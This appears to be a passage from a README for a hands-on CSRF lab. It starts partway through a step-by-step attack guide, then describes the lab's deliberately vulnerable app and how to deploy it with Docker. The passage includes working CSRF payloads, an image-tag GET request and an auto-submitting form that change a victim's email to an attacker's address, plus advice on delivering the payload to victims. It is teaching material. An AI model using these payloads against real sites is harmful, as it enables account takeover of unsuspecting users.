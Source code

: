 3. **Create the Attack Payload**: Develop HTML/JavaScript code that will automatically send the forged request:
   - For GET requests: `<img src="https://vulnerable-site.com/change-email?email=attacker@evil.com">`
   - For POST requests: Create an auto-submitting form

4. **Deliver the Payload**: Get the victim to execute the payload through:
   - Sending a link via email/message
   - Hosting the payload on a website the victim might visit
   - Embedding the payload in a popular website through other vulnerabilities

5. **Execution**: When the victim loads the page with the payload, their browser automatically sends the request to the vulnerable site with their cookies attached.

Example of a basic CSRF payload (as demonstrated in this lab):

```html
<form id="csrf-form" action="https://vulnerable-site.com/profile" method="post">
    <input type="hidden" name="email" value="hacked@attacker.com">
</form>
<script>
    document.getElementById("csrf-form").submit();
</script>
```

## Lab Details

This lab provides a hands-on environment to understand, identify, and exploit CSRF vulnerabilities through a simple web application with intentional CSRF vulnerabilities.

### Features

- Complete web application with user registration, login, and profile management
- Intentionally vulnerable profile update functionality
- Educational content explaining CSRF concepts
- Modern UI with animations and visual feedback
- Docker support for easy deployment

### Deployment

1. **Login to your poridhi account & Clone the repository**:
   ```bash
   git clone https://github.com/ahamedislam/csrf_lab.git
   cd csrf_lab
   ```

2. **Start the containers**:
   ```bash
   docker-compose up --build -d
   ```

   <img src="screenshots/docker-up.png" alt="Docker Compose Up" width="500" height="300">
